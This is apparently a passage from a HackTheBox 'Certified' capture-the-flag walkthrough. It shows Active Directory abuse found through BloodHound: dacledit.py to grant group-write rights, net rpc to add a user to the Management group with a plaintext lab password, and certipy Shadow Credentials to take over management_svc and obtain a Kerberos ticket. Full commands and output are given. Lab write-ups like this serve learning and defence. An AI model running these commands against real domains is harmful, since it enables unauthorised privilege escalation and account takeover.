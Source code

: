 <img width="768" height="309" alt="2" src="https://github.com/user-attachments/assets/33e15a9a-eefc-454d-a53a-c74e11894b16" />

Our user has `WriteOwner` rights on `MANAGEMENT@CERTFIED.HTB` group.So I'll go further and find out very interesting path:


<img width="800" height="206" alt="2" src="https://github.com/user-attachments/assets/64878ed5-ec01-4ebd-9840-c68aa6e92e58" />

Click on the edge in BloodHound from Judith.Mader to Management group.There is section how to abuse with Linux

## Modyfing rights

To change the ownership of the object, you may use Impacket's dacledit example script (cf. "grant ownership" reference for the exact link).
```text
dacledit.py -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management 'certified'/'judith.mader':'judith09' -dc-ip 10.10.11.41
Impacket v0.13.0.dev0+20241024.90011.835e1755 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20241027-152313.bak
[*] DACL modified successfully!
```
Now we have the rights to add user

```bash

net rpc group addmem Management judith.mader -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
```

Next, I'll check our user is there:

```text
net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

## Abusing `MANAGEMENT_SVC`



<img width="821" height="266" alt="5" src="https://github.com/user-attachments/assets/d8da5a30-a7c7-472f-84ce-617a7c057a0f" />


As you can see, we have `GenericAll` rights over `MANAGEMENT_SVC`.I suggest to use `certipy` for Shadow Credentials:

```text
certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '91c77677-13a9-3225-4533-8a5ec50d7c90'
[*] Adding Key Credential with device ID '91c77677-13a9-3225-4533-8a5ec50d7c90' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '91c77677-13a9-3225-4533-8a5ec50d7c90' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
```
